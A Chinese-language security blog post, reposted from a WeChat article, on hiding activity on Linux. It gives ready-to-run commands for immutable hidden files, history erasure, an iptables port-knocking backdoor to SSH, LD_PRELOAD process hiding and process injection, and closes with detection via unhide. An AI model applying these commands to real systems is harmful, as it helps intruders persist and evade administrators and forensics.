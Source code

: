 ```yaml
---
title: "Linux隐藏技术"
layout: post
date: 2019-09-05
image: /assets/images/markdown.jpg
headerImage: false
tag:
- linux
category: blog
blog: true
author: DshSec
description: 涉及Linux下文件隐藏、进程隐藏、端口复用

---
```


#####  原文信息
原文作者：Bypass公众号   
原文链接：[点击此处直接访问](https://mp.weixin.qq.com/s?srcid=0902Zm6E1XSvVIgYt2Q3jSZm&scene=23&sharer_sharetime=1567437712765&mid=2448904250&sharer_shareid=64458b89777349122de4fc747d336e14&sn=cce745079e51ab4bb013de00c2125bf0&idx=1&__biz=MzA3NzE2MjgwMg%3D%3D&chksm=8b55c067bc22497125d4bd5f7a03e46c214d5db11e5bbdbb8422c92cbcf85e3653def6bab6c5&mpshare=1&key=b1d774c47332243a7516756d3a9fe660b8c7273d25a3a287bd403be11be6776acfe040d8b96edbaf8401c621fdcbd22748edd0c8295201dfafbc1aa7145e0cd9d0f5461881deb303b24b52a0cd9126d8&ascene=1&uin=MTA1MTI5MTUyMQ%3D%3D&devicetype=Windows+10&version=62060834&lang=zh_CN&pass_ticket=XTJUAgoC6SLk6U6jutYqGfS1%2BFGlLiWGnPMvZJGYArRcBGENrZolo0laVgipfxHI)

##### Linux创建隐藏文件
	touch .test.txt  		文件名前加点就是隐藏文件

#####  Linux隐藏权限
*创建一个root和其他用户删不了的文件，并且用ls-la 看不出来权限*    

	chattr +i .test.txt 		锁定一个隐藏文件(也可以是普通文件)  
	lsattr .test.txt			属性查看  
	chattr -i .test.txt		解除锁定  

##### 隐藏历史操作命令
+  开启无痕模式  
	```
	[space] set +o history	开启无痕操作模式	[space]表示空格，由于空格的缘故该命令本身也不会被记录
	[space] set -o history 	关闭无痕模式  工作执行完成后，再执行这个命令  
	```
+  删除指定的历史记录  
	```
	history -d [num]  
	```
+  批量删除历史记录  
	```
	sed -i '150,$d' .bash_history 	只保留前150条
	```

#####  端口复用实现隐藏端口
*通过端口复用来达到隐藏端口的目的*  

+  通过SSLH在同一端口上共享SSH和HTTPS  
```
	sudo apt-get install sslh  #安装sslh  
	sudo vi /etc/default/sslh	#编辑SSLH配置文件  
	1.修改Run=no 为Run=yes  
	2.修改下列行以允许SSLH在所有可用接口上侦听端口443  
	 DAEMON_OPTS="--user sslh --listen 0.0.0.0:443 --ssh 127.0.0.1:22 --ssl 127.0.0.1:443 --pidfile /var/run/sslh/sslh.pid"
```
+  利用IPTables进行端口复用
```
	#端口复用链   
	iptables -t nat -N LETMEIN    
 	# 端口复用规则   
	iptables -t nat  -A LETMEIN -p tcp -j REDIRECT --to-port 22   
	# 开启开关   
	iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT  
	# 关闭开关  
	iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT  
	# let's do it  
	iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN  
```
+  利用方式  
```
	#开启复用    
	echo threathuntercoming | socat - tcp:192.168.28.128:80   
	#ssh使用80端口进行登录   
	ssh -p 80 root@192.168.28.128   
	#关闭复用   
	echo threathunterleaving | socat - tcp:192.168.28.128:80   
```
查看详细介绍请点击：[远程遥控 IPTables 进行端口复用](https://www.freebuf.com/articles/network/137683.html)

#####  进程隐藏  
*管理员无法通过相关命令工具查找到你运行的进程，从而达到隐藏目的，实现进程隐藏*  

+  通过libprocesshider进行隐藏   
github项目地址：https://github.com/gianlucaborello/libprocesshider   
利用LD_PRELOAD来实现系统函数的劫持   
```
	# 下载程序编译   
	git clone https://github.com/gianlucaborello/libprocesshider.git    
	cd libprocesshider/ && make   
	# 移动文件到/usr/local/lib/目录下   
	cp libprocesshider.so /usr/local/lib/   
	# 把它加载到全局动态连接局   
	echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload   
```
+   使用linux-inject进行进程注入   
github项目地址：https://github.com/gaffe23/linux-inject.git   
linux-inject是用于将共享对象注入Linux的工具   
```
	# 下载程序编译   
	git clone https://github.com/gaffe23/linux-inject.git    
	cd linux-inject && make   
	# 测试进程   
	./sample-target   
	# 进程注入    
	./inject -n sample-target sample-library.so   
```

##### 如何在linux中发现隐藏的进程？
>unhide 是一个小巧的网络取证工具，能够发现那些借助rootkit，LKM及其它技术隐藏的进程和TCP / UDP端口。这个工具在Linux，UNIX类，MS-Windows等操作系统下都可以工作。  
>下载地址：http://www.unhide-forensics.info/    
>安装   
>sudo yum install unhide   
>使用   
>unhide [options] test_list   

